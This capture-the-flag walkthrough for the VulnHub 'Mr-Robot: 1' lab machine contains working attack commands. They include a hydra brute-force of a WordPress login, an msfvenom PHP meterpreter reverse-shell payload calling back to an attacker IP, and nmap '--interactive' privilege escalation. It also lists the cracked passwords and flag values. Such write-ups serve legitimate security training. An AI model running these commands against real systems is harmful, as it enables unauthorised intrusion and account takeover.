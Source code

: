 # Mr-Robot: 1
[VulnHub link](https://www.vulnhub.com/entry/mr-robot-1,151/)  
By Leon Johnson

Note:
* Using nmap/Zenmap to find out the victim's IP address, by scanning all IP addresses on a specific subnet is required because we are unable to get to the page of a GUI-based login page to view network information.
* We are presented with a CLI-based login method instead.

Walkthrough:
* Run `ifconfig` to find out what our IP address is (e.g. 192.168.153.160). Also, run `route -n` to see what our router gateway IP address is (e.g. 192.168.153.2). Find out the IP addresses of our known machines first to give us an idea into what IP address we should expect for our victim VM.
* Our target address on nmap/Zenmap is thus `192.168.153.*`. Run with the intense scan option if using Zenmap.
* Eliminate the addresses from the scan results based on the hosts that are already known to us, to see which other host is alive.
* This leaves us with 192.168.153.174 which is running on Linux and has open ports 80 (http) and 443 (tcp) with ssl. Port 22 (ssh) is closed.
* Open 192.168.153.174 on our browser and we get an interactive-style page greeting us.
* Run `uniscan -u 192.168.153.174 -qweds`.
* Note: uniscan is a Remote File Include, Local File Include and Remote Command Execution vulnerability scanner. -q enables directory checks, -w enables file checks, -e enables robots.txt and sitemap.xml check, -d enables dynamic checks and -s enables static checks.
* uniscan vs. dirbuster: *to-be-added*
* From the scan results, we see that the site is running on WordPress, given the many specific references: wp-includes, wp-admin, wp-content directories and a bunch of external hosts that have to do with WordPress resources.
* Since there is a robots.txt found from the scan, open it and we see that there are 2 files listed: fsocity.dic (dictionary) and key-1-of-3.txt.
* Execute wget 192.168.153.174/key-1-of-3.txt to download the text file to our Kali VM, and do the same thing with the .dic file.
* key-1-of-3.txt contains a string (`073403c8a58a1f80d943455fb30724b9`): after running hash-identifer against it, we know that it could be a MD5 hash. We also know that the .dic file appears to be a wordlist.
* Head to the wp-login section of the WordPress site on our browser, for which we have to get the credentials to. After which, we can get a reverse shell.
* Insert a random parameter string at the end of the site (e.g. `/imag`), in order to get the error message that the site does not exist. This is one way for us to see the actual WordPress site instead of the interactive-style site that greeted us (which did not quite show us how we are able to escape that page to head to other pages of the site).
* After getting to the WordPress site, we see that there is a user elliot, from the only post on the site titled "TestPOst". elliot is also likely to be a username to a WordPress account.
* Run wpscan --url 192.168.153.174 --enumerate users to find out the usernames of other users on the WordPress site.
* wpscan: a black box WordPress vulnerability scanner. *to-be-continued*
* Head to the WordPress login site and attempt to login with a random password for the username `elliot`. There is an error stating that the password for elliot is incorrect. Thus, we now know that the username elliot indeed exists, and our next step is to brute-force the password for that account.
* Run hydra 192.168.153.174 http-form-post "/wp-login.php:log=elliot&pwd=^PASS^:ERROR" -l elliot -P /tut/fsocity.dic -t 10 -w 30
* hydra: parallelized login cracker which supports numerous protocols to attack.
* Note: log and pwd are found by inspecting the input elements of the page's username and password fields through Developer Tools: `<input id="user_login" class="input" name="log"...>` and `<input id="user_pass" class="input" name="pwd"...>`
* The password (ER28-0652) is found somewhere at the bottom of the .dic file, thus it took quite some time to get it.
* After logging in as elliot, we are able to login and install as plugin called [File Manager](https://wordpress.org/plugins/wp-file-manager/).
* Run `msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.153.160 LPORT=4000 -f raw > shell.php` on our Kali VM to generate our payload. The LHOST is the IP address of our Kali VM.
* The payload is shell.php. Upload it through File Manager, and the file path is htdocs/wp-content/uploads/shell.php.
* Run `msfconsole` on our Kali VM. Run `use exploit/multi/handler` and `set payload php/meterpreter_reverse_tcp`.
* Run `set LPORT=4000` and `set LHOST=192.168.153.160` (IP address of our Kali VM).
* Run `exploit -j -z`. Open our reverse shell on the victim VM, and we will see from our Kali VM terminal that a session has been started.
* Run `sessions -i 1` then `sysinfo` to confirm that we are running on a Linux machine as detected earlier from our nmap/Zenmap scan.
* Navigate to our home directory and we find a directory called robot. Enter robot and we find key-2-of-3.txt and password.raw-md5.
* The key text file cannot be opened by us at the moment because the file is only readable by root, with no other permissions set. However, the password.raw-md5 file can be opened by us.
* We find the username `robot` and his password hash (`c3fcd3d76192e4007dfb496cca67e13b`) within the password file. Search for the original value behind the MD5 hash on the Google search engine, and we have now got the password (`abcdefghijklmnopqrstuvwxyz`) to robot.
* To-do: try to login via ssh using robot username and password. Ensure that the IP address of the victim VM is entered correctly.
* After logging in as robot, we find that we are able to open key-2-of-3.txt.
* We have to now find the last key, which is in /root. However, even after logging in as robot, we do not have the permission to navigate to /root. We have to do a privilege escalation here, using a badly configured nmap.
* Run `nmap`, `nmap --interactive` and then `!sh` to get a shell. `whoami` shows that we are now `root`.
* Head to /root and we find key-3-of-3.txt: `04787ddef27c3dee1ee161b21670b4e4`.
